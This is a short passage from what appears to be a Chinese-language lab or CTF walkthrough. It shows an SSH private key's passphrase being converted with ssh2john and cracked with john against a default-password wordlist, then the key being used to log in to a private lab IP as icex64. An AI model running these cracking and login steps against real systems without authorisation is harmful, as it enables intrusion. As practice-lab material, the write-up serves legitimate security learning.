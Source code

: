 需要密码



#### john爆破

```
ssh2john 1 > hash
```

![image-20250317191705448](./assets/image-20250317191705448.png)

```
john hash -w=/usr/share/seclists/Passwords/Default-Credentials/default-passwords.txt
```

![image-20250317194730263](./assets/image-20250317194730263.png)

得到密码

- P@55w0rd!



#### ssh连接

```
ssh icex64@192.168.23.140 -i ./1
```

![image-20250317194826680](./assets/image-20250317194826680.png)

